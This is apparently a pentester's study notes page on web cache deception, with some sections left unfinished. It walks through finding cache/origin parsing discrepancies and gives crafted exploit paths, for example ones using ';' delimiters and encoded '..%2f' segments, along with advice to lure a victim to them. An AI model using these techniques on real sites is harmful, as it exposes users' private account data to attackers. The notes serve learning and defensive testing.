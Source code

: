 # Web cache deception

<details>

<summary>Introduction</summary>

Web cache deception is a vulnerability where an attacker tricks a web cache into storing sensitive content due to differences in how cache and origin servers handle requests. The attacker lures a victim into visiting a malicious URL, causing the cache to mistakenly store private data as a static resource. The attacker can then access the cached response, gaining unauthorized access to the sensitive information.

</details>

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

## <mark style="color:purple;">Constructing a web cache deception attack</mark> <a href="#constructing-a-web-cache-deception-attack" id="constructing-a-web-cache-deception-attack"></a>

1. Identify a target endpoint that returns dynamic responses with sensitive information, focusing on those supporting `GET`, `HEAD`, or `OPTIONS` methods, as they are typically cached
2. Look for discrepancies in how the cache and origin server parse the URL path
3. Craft a malicious URL to trick the cache into storing a dynamic response. When the victim accesses it, their data is cached. Use Burp to request the same URL and retrieve the cached response. Avoid using a browser to prevent redirects or data invalidation.

## <mark style="color:purple;">Static extension cache rules</mark>

Cache rules often target static resources by matching common file extensions like `.css` or `.js`. This is the default behavior in most CDNs.

### <mark style="color:purple;">Path mapping discrepancies</mark> <a href="#exploiting-path-mapping-discrepancies" id="exploiting-path-mapping-discrepancies"></a>

<details>

<summary>Path mapping discrepancies (REST-style vs traditional URL)</summary>

Consider the following example:

`http://example.com/user/123/profile/wcd.css`

* An origin server using **REST-style** URL mapping may interpret this as a request for the `/user/123/profile` endpoint and returns the profile information for user `123`, ignoring `wcd.css` as a non-significant parameter.
* A cache that uses **traditional URL** mapping may view this as a request for a file named `wcd.css` located in the `/profile` directory under `/user/123`. It interprets the URL path as `/user/123/profile/wcd.css`. If the cache is configured to store responses for requests where the path ends in `.css`, it would cache and serve the profile information as if it were a CSS file.

</details>

<pre class="language-python"><code class="lang-python"># 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint
<strong>
</strong># 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
<strong>
</strong><strong># 3. Check if origin server uses REST-style
</strong><strong>/my-account/abc    # The response is identical to the original -> REST-style
</strong><strong>
</strong><strong># 4. Check if cache server uses traditional URL &#x26; explotation
</strong>/my-account/abc.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/my-account/abc.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
# Now https://site.com/my-account/abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account/xyz.js
# Note: I omitted cache buster for for simplicity
</code></pre>

{% hint style="info" %}
**Note**:&#x20;

* This attack is limited to the specific endpoint that you tested, as the origin server often has different abstraction rules for different endpoints.
* Try various extensions, such as `.css`, `.ico`, and `.exe`, as caches may have rules for specific extensions.
{% endhint %}

### <mark style="color:purple;">Delimiter discrepancies</mark> <a href="#exploiting-delimiter-discrepancies" id="exploiting-delimiter-discrepancies"></a>

<details>

<summary>Delimiter discrepancies</summary>

to do

</details>

Objective: identify a character that is used as a delimiter by the origin server but not the cache. Use this list: [https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)

<pre class="language-python"><code class="lang-python"># 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Fuzz delimeter char
/my-account§§aaa   # Fuzz delimeter char. -> with ";" -> The response matches the original

# 4. Check if delimiter is not used by the cache
/my-account         # "X-Cache: miss"
/my-account;abc.js  # "X-Cache: miss"
# So the cache thinks "/my-account" is different from "/my-account;abc.js"

# 5. Exploitation
<strong>/my-account;abc.js # 1 time "X-Cache: miss"
</strong>/my-account;abc.js # 2 time "X-Cache: hit"
# Now https://site.com/my-account;abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account;xyz.js
# Note: I omitted cache buster for for simplicity
</code></pre>

{% hint style="info" %}
**Note**:&#x20;

* Because delimiters are generally used consistently within each server, you can often use this attack on many different endpoints.
*   Some delimiter characters may be processed by the victim's browser before it forwards the request to the cache. This means that some delimiters can't be used in an exploit. For example, browsers URL-encode characters like `{`, `}`, `<`, and `>`, and use `#` to truncate the path.

    If the cache or origin server decodes these characters, it may be possible to use an encoded version in an exploit.
* Make sure to test all ASCII characters and a range of common extensions, including `.css`, `.ico`, and `.exe`
{% endhint %}

### <mark style="color:purple;">Delimiter decoding discrepancies</mark> <a href="#exploiting-delimiter-decoding-discrepancies" id="exploiting-delimiter-decoding-discrepancies"></a>

to understand

## <mark style="color:purple;">Static directory cache rules (with normalization discrepancies)</mark> <a href="#exploiting-static-directory-cache-rules" id="exploiting-static-directory-cache-rules"></a>

Web servers often store static resources in specific directories. Cache rules typically target these by matching URL path prefixes like `/static`, `/assets`, `/scripts`, or `/images`.

Premise

* If you type in your browser `https://website/test/../account`, it'll make the following request `GET /account HTTP/2`. &#x20;
* If you type in your browser`https://website/test/..%2faccount`, it'll make the following request `GET /test/..%2faccount HTTP/2`. &#x20;

<pre class="language-python"><code class="lang-python"># 1. Find good endpoint
/my-account            # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used (with static resources)
<strong>/static/js/info.js     # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
</strong>/static/js/info.js     # 2 time "X-Cache: hit" -> Perfect, the page is cached
</code></pre>

### <mark style="color:purple;">Normalization by the origin server</mark> <a href="#exploiting-normalization-by-the-origin-server" id="exploiting-normalization-by-the-origin-server"></a>

<pre class="language-python"><code class="lang-python"># 3. Confirm that the cache rule is based on the static directory
/static/../xxx         # 1 time "X-Cache: miss"
/static/../xxx         # 2 time "X-Cache: hit" -> so all subpages in /static/ will be cached 

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account   # Returns the profile information -> The origin server decodes the slash and resolves the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
<strong>/static/js%2finfo.js   # 2 time "X-Cache: miss" -> Cache isn't normalizing the path before mapping it to the endpoint
</strong># So the cache thinks "/static/js/info.js" is different from "/static/js%2finfo.js"

# 6. Exploiting
/static/..%2fmy-account

# The cache interprets the path as: /static/..%2fmy-account
<strong># The origin server interprets the path as: /my-account
</strong></code></pre>

### <mark style="color:purple;">Normalization by the cache server</mark>

<pre class="language-python"><code class="lang-python"># 3. Confirm that the cache rule is based on the static directory
# This step is useless, so you can't confirm if the cache decodes 
# dot-segments and URL paths without trying an exploit.
<strong>
</strong><strong># 4. Detecting normalization by the origin server
</strong>/aaa/..%2fmy-account   # Not found -> The origin server doesn't decode the slash and doesn't resolve the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js/info.js     # 2 time "X-Cache: hit"
/static/js%2finfo.js   # 2 time "X-Cache: hit" -> Cache has normalized the path
# So the cache understand that they are the same path

# 6. Identify a delimiter that is used by the origin server but not the cache
/my-account§§aaa   # Fuzz delimeter char. -> with "%23" -> The response matches the original

# 7. Check if delimiter is not used by the cache 
/static/js/info.js        # "X-Cache: miss"
/static/js/info.js%23aaa  # "X-Cache: miss"
# So the cache thinks "info.js" is different from "info.js%23aaa"

# 8. Exploitation
/my-account%23%2f%2e%2e%2fstatic/js/info.js

# The cache interprets the path as: /static
# The origin server interprets the path as: /my-account
</code></pre>
